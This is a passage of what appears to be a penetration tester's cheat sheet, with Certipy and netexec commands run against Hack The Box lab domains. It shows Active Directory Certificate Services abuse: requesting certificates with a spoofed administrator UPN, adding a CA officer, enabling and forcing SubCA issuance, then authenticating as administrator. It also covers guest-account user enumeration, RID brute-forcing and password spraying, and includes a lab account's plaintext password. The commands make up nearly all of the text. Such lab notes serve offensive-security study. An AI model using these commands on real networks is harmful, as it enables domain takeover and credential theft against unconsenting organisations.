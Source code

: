 ```bash
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error: The NETBIOS connection with the remote host timed out.
[-] Use -debug to print a stacktrace
                                                                                                                    
┌──(root㉿kali)-[~/tools/Certipy]
└─# certipy-ad req -u ryan.cooper@sequel.htb -p NuclearMosquito3 -upn administrator@sequel.htb -target 10.10.11.202 -ca sequel-dc-ca -template UserAuthentication

Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 23
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
                                                            
# Use certificate to authenticate as administrator
certipy-ad auth -pfx 'administrator.pfx' -username 'administrator' -domain 'sequel.htb' -dc-ip 10.10.11.202
```

```bash
certipy find -u raven -p password -dc-ip 10.x.x.x -stdout -vulnerable

certipy ca -u raven -p password -dc-ip 10.x.x.x -ca manager-dc01-ca -add-officer raven

# use subca(but we can list which templates are available)
(certipy ca -u raven -p password -dc-ip 10.x.x.x -ca manager-dc01-ca -list-templates)
certipy ca -u raven -p password -dc-ip 10.x.x.x -ca manager-dc01-ca -enbable-template subca

# upn will set to administrator
certipy req -u raven -p password -dc-ip 10.x.x.x -ca manager-dc01-ca -template SubCA -upn administrator@manager.htb

# force request
certipy ca -u raven -p password -dc-ip 10.x.x.x -ca manager-dc01-ca -issue-request 13

# retrieve
certipy req -u raven -p password -dc-ip 10.x.x.x -ca manager-dc01-ca -retrieve 13

# use certificate
certipy auth -pfx administrator.pfx
```

### netexec
```bash
# if user exists, it will say "KDC_ERR_PREAUTH_FAILED"
# if user doesn't exist, it will say "KDC_ERR_C_PRINCIPAL_UNKNOWN"
netexec smb 10.10.x.x -k -u 'guest' -p ''

# see if we can get users information through guest account(guest account has blank password)
netexec smb 10.10.x.x -u 'guest' -p '' --users

# we're using rid to find valid usernames
netexec smb 10.10.x.x -u 'guest' -p '' --rid-brute 6000

# use username as password
# --no-bruteforce will just read the file sequentially
netexec smb 10.x.x.x -u users.txt -p users.txt --no-bruteforce --continue-on-success

netexec smb 10.x.x.x -u 'operator' -p 'operator' --shares
```